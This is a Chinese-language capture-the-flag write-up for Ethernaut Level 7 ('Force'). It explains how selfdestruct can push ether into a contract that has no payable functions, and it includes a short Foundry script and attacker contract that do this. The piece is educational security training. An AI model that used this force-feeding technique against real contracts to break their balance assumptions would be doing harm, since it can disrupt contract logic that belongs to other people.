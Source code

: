 # Level 7 - Force
## 題目
[Force](https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575)

### 通關條件
這一關的目標是使合約的餘額大於 0
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
## 解題
這題目標是讓合約地址有錢，向合約轉帳可以透過：
1. 帶有 `payable` 屬性的 function
2. `receive()`
3. 呼叫不存在的 function 觸發有帶 `payable` 屬性的 `fallback()`

但是當合約中沒有 `receice()` 和 `fallback() payable` 時，直接向地址轉帳會出錯並回滾。所以這題不能使用上述方法，這邊要考的是 **selfdestruct**

**selfdestruct** 是合約的自毀功能，可以使合約把自己消除。當合約消除自己時，會把合約中剩餘的資產都打到指定的地址中。所以我們要建立一個合約並向裡面存一些錢，再讓它自毀並指定把錢轉進關卡的地址中，攻擊如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        new ForceAttacker{value: 1 wei}(payable(your_challenge_address));
        
        vm.stopBroadcast();
    }
}

contract ForceAttacker {

    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
} 
```
關於自毀合約，可以參考以下文章：
- [WTF Solidity极简入门: 26. 删除合约](https://github.com/AmazingAng/WTF-Solidity/tree/main/26_DeleteContract)
- [Solidity by Example - Self Destruct
](https://solidity-by-example.org/hacks/self-destruct/)
